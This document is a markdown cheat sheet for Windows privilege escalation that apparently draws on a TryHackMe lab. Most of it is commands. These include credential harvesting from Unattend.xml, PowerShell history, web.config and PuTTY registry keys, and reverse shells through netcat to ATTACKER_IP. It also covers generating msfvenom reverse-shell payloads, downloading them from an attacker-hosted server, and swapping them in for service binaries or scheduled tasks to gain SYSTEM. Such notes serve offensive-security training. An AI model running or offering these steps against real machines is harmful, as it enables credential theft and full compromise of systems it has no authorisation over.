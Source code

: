 # Windows
tip: use remmina for RDP
## Harvesting passwords from usual spots

Here can be passwords stored
<pre>
    C:\Unattend.xml
    C:\Windows\Panther\Unattend.xml
    C:\Windows\Panther\Unattend\Unattend.xml
    C:\Windows\system32\sysprep.inf
    C:\Windows\system32\sysprep\sysprep.xml
</pre>

### Powershell history
It can be stored in powershell history

use cmd.exe to execute this command
<pre>type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt</pre>

if you want to use powershell change `%userprofile%` to `$Env:userprofile` <br>

### Saved Windows Credentials
Here can be saved credentials, we can't see the password but we can use it to run cmd with user's privilage
<pre>
cmdkey /list

runas /savecred /user:admin cmd.exe</pre>

### IIS Configuration
Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called web.config and can store passwords for databases or configured authentication mechanisms. Depending on the installed version of IIS, we can find web.config in one of the following locations:<br>

<pre>

    C:\inetpub\wwwroot\web.config
    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

    type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
    type C:\inetpub\wwwroot\web.config | findstr connectionString
</pre>

### PuTTY
PuTTY is an SSH client commonly found on Windows systems. Instead of having to specify a connection's parameters every single time, users can store sessions where the IP, user and other configurations can be stored for later use. While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.

To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword with the following command:
`reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`

![putty](img/putty.png)

## quick escalation

### Scheduled Tasks

Run `schtasks` for list of sheduled tasks <br>
For details about task run `schtasks /query /tn TASK-NAME /fo list /v`<br>

To check if we the permissions we can rut `icacls FILE`<br>

if you can locate nc64.exe file you can get reverse shell
<pre>
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > c:\TASK

nc -lvp 4444
</pre>

Than run that task manualy

`schtasks /run /tn TASK`

### AlwaysInstallElevated

These two registry needs to be set 
<pre>
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
</pre>

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi`

than run on target system 

`msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`

## Service Misconfigurations
get info<br>
`sc qc <service>`

### Insecure Permissions on Service Executable

If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account trivially.

Use `icacls` to see permissions

![cmd](img/win-cmd1.png)
We can see (M) permission. That means we can modify the file.

`SERVICE_START_NAME` is the account used to run the service.

#### On attacker's machine
We can create a rev shell, start a python server and start listening.
<pre>
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe

python3 -m http.server

nc -lvp 4445
</pre>

#### On windows machine
Use wget in powershell
<pre>
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe

cd C:\PROGRA~2\SYSTEM~1\

move WService.exe WService.exe.bkp

move C:\Users\thm-unpriv\rev-svc.exe WService.exe

icacls WService.exe /grant Everyone:F

sc stop windowsscheduler

sc start windowsscheduler
</pre>

### Unquoted Service Paths

When working with Windows services, a very particular behaviour occurs when the service is configured to point to an "unquoted" executable. By unquoted, we mean that the path of the associated executable isn't properly quoted to account for spaces on the command.

example `C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe`

1. First, search for `C:\\MyPrograms\\Disk.exe`. If it exists, the service will run this executable.
2. If the latter doesn't exist, it will then search for `C:\\MyPrograms\\Disk Sorter.exe`. If it exists, the service will run this executable.
3. If the latter doesn't exist, it will then search for `C:\\MyPrograms\\Disk Sorter Enterprise\\bin\\disksrs.exe`. This option is expected to succeed and will typically be run in a default installation.

Check if you have permisions in that folder, ussualy `C:\Program Files` and `C:\Program Files (x86)` are't writabble by unprivileged user.
<pre>icacls c:\MyPrograms</pre>

You can again create a file and start a reverse shell as above.

### Insecure Service Permissions

To check for a service DACL from the command line, you can use [Accesschk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) from the Sysinternals suite.

<pre>accesschk64.exe -qlc thmservice</pre>
![img](img/win-cmd2.png)

Here we can see that the `BUILTIN\\Users` group has the SERVICE_ALL_ACCESS permission, which means any user can reconfigure the service.

Create rev shell `rev-svc3.exe`
<pre>
icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F

sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem

sc stop THMService

sc start THMService

</pre>

## Abusing dangerous privileges

### Windows Privileges

Check the user's privileges.
<pre>whoami /priv</pre>

Than compere it with this project [Priv2Admin](https://github.com/gtworek/Priv2Admin)

In case [TryHackme](https://tryhackme.com/room/windowsprivesc20)

## Abusing vulnerable software

Get information about software

<pre> wmic product get name,version,vendor </pre>

It might take time to finish

Than you can search for public exploits about the software [ExploitDB](https://www.exploit-db.com/)

